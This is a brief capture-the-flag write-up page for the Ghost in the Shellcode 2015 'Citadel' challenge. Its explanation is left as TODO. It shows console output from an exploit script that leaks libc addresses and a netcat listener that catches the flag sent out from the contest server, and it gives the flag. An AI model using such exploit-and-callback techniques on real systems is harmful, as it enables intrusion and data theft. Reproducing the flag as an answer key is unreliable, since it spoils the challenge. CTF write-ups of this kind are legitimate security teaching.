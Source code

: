 # Ghost in the Shellcode 2015 teaser: Citadel

**Description:**

> Steal the key!
>
> [File](citadel-4ee854f5f99e4c62924059a2838cd6147f42d54f9e743b4dbe873aa10b850a32) running at citadel.2015.ghostintheshellcode.com:5060

## Write-up

(TODO)

Locally, run `solve.py` after changing the `server_ip` and `server_port` variables:

```bash
$ python solve.py
[+] Opening connection to citadel.2015.ghostintheshellcode.com on port 5060: OK
memcmp at: 0x00007faa50223ae0
system at: 0x00007faa50109530
Flag should be on its way!
[*] Closed connection to citadel.2015.ghostintheshellcode.com port 5060
```

But before that, start listening on the IP/port you specified in `solve.py`. When `solve.py` runs, the flag is sent there.

```bash
$ nc -vlp 9001
listening on [any] 9001 ...
connect to [13.33.33.37] from ec2-54-83-45-212.compute-1.amazonaws.com [54.83.45.212] 51867
key{Should have used boost::format}
```

The flag is `key{Should have used boost::format}`.

## Other write-ups and resources

* [Write-up by team gn00bz](http://gnoobz.com/gits-teaser-2015-ctf-citadel-writeup.html)
* [Exploit by team gn00bz](solve.py)
* <http://pastebin.com/MS3KG1um>
